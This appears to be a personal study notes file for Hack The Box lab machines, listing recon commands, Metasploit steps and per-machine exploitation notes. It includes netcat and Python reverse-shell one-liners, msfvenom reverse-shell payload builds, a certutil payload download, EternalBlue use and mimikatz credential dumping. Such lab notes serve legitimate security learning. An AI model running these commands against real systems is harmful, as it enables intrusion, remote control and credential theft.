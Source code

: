 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)

Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 

nmap -sS 192.168.88.128

nmap -T4 -p- -A

-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole

search smb 

use auxiliary/scanner/smb/smb_version 

set RHOSTS 192.168.88.128

run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 

nmap -A -p139,445,3389 10.10.10.4

nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )

Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.

search -f user.txt    , same for root. gg

learned from video :  getuid - windows whoami equivalent , sysinfo - obvious, help - meterpreter help ( lots of useful commands) ;
getsystem attempts to privesc ( might be a bit reckless)

## Lame
nmap --script vuln -p3632 10.10.10.3

3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell

find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs)

elevate privileges with nmap ( should learn something new instead...)

https://pentestlab.blog/category/privilege-escalation/  

## blue
as name indicates

nmap --script vuln -p445 10.10.10.3   reports windows/smb/ms17_010_eternalblue)

didnt work on first try, resetted machine, tried other exploits, but this one eventually worked. 

##### video stuff
original exploit uses generic shell, but it is possible to "set payload windows/x64/meterpreter/reverse_tcp"  for improvement

*Autoblue* can be used and can deselect meterpreter (OSCP lol) . more manual and not msf

postexploit in windows: hashdump(meterpreter) , route print(shell) , arp -a(shell) , netstat -ano ( shell), ps (meterpreter)

meterpreter > load kiwi, mimikatz , a lot of stuff. Kiwi  : samdump, dumpsecrets

## devel
IIS7 with file upload by FTP. 

making payloads with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f aspx -o shell.aspx 

Needed write-up because new to IIS shells, and windows privesc. 

set payload windows/meterpreter/reverse_tcp

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set lhost 10.10.14.36

msf5 exploit(multi/handler) > set lport 4444

background and session management.. anyway all thanks to https://x64.moe/hackthebox%20walkthrough%20:%20devel/

use post/multi/recon/local_exploit_suggester    ## for local exploits, new for me

##### video stuff
/usr/share/wordlists/ for dirbuster and other tools

FTP : if file transfer is failing, switch to binary mode with "I" option

privesc : sometimes inside meterpreter "getsystem" is enough lol ( not here)

### undisclosed machine

privesc  : sudo -l  .  nano file import

### jerry

weak password
*admin:admin* for status viewer. 

error on other paths:
<user username="tomcat" password="s3cret">  is actual pass   . Tomcat manager web shell upload.

Java server pages web shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 -f war >shell.war

#### video : 
for cred in $(cat file.txt);do echo -n $cred | base64; done    . example of 1 line bash

certutil  -urlcache -f http://10.10.14.26/sh.exe   // download over certutil (WIN) 
### Nibbler

sudo -l again. more php shells.

### optimum
using compiled winprivesc exploits ( ms16-32)
win exploits 
https://www.fuzzysecurity.com/tutorials/16.html
python2 windows-exploit-suggester.py --database 2020-01-14-mssb.xls --systeminfo ../systeminfo.txt --quiet
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
not much different video from https://alamot.github.io/optimum_writeup/ 

### Bashed
user - embarassing /dev/ folder find by nikto into the php shell.
reverse shells not just nc... can also be python. one liner: 
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
file creation and edit time can be a hint...  ( learned from write-up..) 
#### video lesson 
while impersonating: sudo -u scriptmanager /bin/bash  will transfer you into shell on behalf of scriptmanager, without *su* command. 



